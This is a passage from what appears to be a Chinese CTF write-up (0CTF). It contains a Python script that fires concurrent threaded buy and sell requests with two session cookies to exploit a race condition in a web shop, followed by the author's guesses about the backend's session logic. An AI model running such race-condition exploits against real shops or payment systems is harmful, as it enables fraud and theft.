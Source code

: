 ```python
res = session1.post(url = url1,params = paramsLogin,data = data,cookies = cookie1)
print res.text
res = session1.post(url = url1,params = paramsLogin,data = data,cookies = cookie2)
print res.text

# res = session1.get(url1,params = paramsBuy,cookies = cookie1)
# print res.text
# res = session1.get(url1,params = paramsSale,cookies = cookie2)
# print res.text
# res = session1.get(url1,params = paramsSale,cookies = cookie1 )
# print res.text

def buy():
	res = session1.get(url1,params = paramsBuy,cookies = cookie1)
	print res.text

def sale():
	res = session1.get(url1,params = paramsSale,cookies = cookie2)
	print res.text
	res = session1.get(url1,params = paramsSale,cookies = cookie1 )
	print res.text

def main():
	while True:
		t1 = threading.Thread(target=buy)
	  	t2 = threading.Thread(target=sale)
	  	t3 = threading.Thread(target=sale)
	  	t1.start()
	  	t2.start()
	  	t3.start()

	  	t1.join()
	  	t2.join()
	  	t3.join()

if __name__ == '__main__':
	main()

```

测试一下，果然是**阻塞**的问题。通过这种方式可以弥补一下阻塞，但是触发机率没有curl高。

![race](https://mo-xiaoxi.github.io/img/post/0ctf/race.png)



##### 后台逻辑猜想

因为购买和卖出操作后，会破坏session。这样，对于同一个用户，同一个cookie就不能通过多线程的买卖来实现竞争了，因为session在第一次sale确认请求中被破坏，这样第二个sale请求就失败了。所以，原来的竞争没有效果。

这里采用session保存用户的状态，比如用户有多少钱和物品，用cookie作为标志符号
